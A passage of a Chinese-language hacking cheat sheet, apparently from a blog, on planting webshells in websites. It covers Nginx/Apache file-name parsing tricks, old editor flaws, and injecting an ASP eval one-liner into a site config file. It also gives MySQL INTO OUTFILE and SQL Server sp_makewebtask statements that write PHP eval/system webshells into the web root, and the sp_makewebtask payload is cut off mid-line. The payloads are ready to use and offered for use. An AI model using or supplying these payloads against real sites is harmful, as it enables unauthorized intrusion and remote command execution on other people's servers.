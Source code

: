     *   畸形文件名解析：test.jpg/\*.php
*   Nginx
    
    *   \-畸形解析漏洞 :test.jpg/\*.php(Nginx版本无关，只与配置环境有关)
    *   <8.03空字节代码执行漏洞 :test.jpg%2500.php
*   Apache解析漏洞
    
    *   Apache解析文件的时候是按照从右向左的方式,test.php.aaa.sss,Apache无法解析.aaa.sss，向左解析到.php,于是test.php.aaa.sss就被解析为php文件

**5.编辑器**-
低版本的ewebeditor、fckeditor编辑器均有漏洞可以利用。或绕过上传或结合解析漏洞

**6\. 网站配置插马**-
在网站后台的一些配置接口中最终的配置结果会写进网站配置文件，这里通过源码的过滤规则进行闭合语句可以直接将shell写进配置文件从而getshell。**注意：网站后台配置插马属于高危操作，如果闭合失败网站将全面崩溃**，不建议生产环境下操作。-
例：良精后台配置插马

    #配置文件路径：../inc/config.asp
    #插马语句："%><%eval request("123")%><%'
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628232233587.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)连接：http://192.168.1.10:8009//inc/config.asp-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628232257831.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
**7.上传插件**-
将shell添加到安装的插件中上传服务器拿shell。典型如wordpress

**8.数据库执行**-
通过数据库执行命令导出一句话到网站目录拿shell。此方法需要有数据库写入权限，且知道网站目录-
_sqlserver 导出_-
SQL server 2005之后就不能导了，因为sp\_makewebtask存储过程被取消了

    ;exec%20sp_makewebtask%20%20%27c:\inetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execut
    
        

_mysql导出_

版本一

    Create TABLE study (cmd text NOT NULL);
    Insert INTO study (cmd) VALUES('<?php eval ($_POST[cmd]) ?>');
    select cmd from study into outfile 'D:/php/www/htdocs/test/seven.php';
    Drop TABLE IF EXISTS study;
    
        

版本二

    use mysql;
    create table x(packet text) type=MYISaM;
    insert into x (packet) values('<pre><body ><?php @system($_GET["cmd"]); ?></body></pre>')
    select x  into outfile 'd:\php\xx.php'
    
        

版本三

    select '<?php eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'
    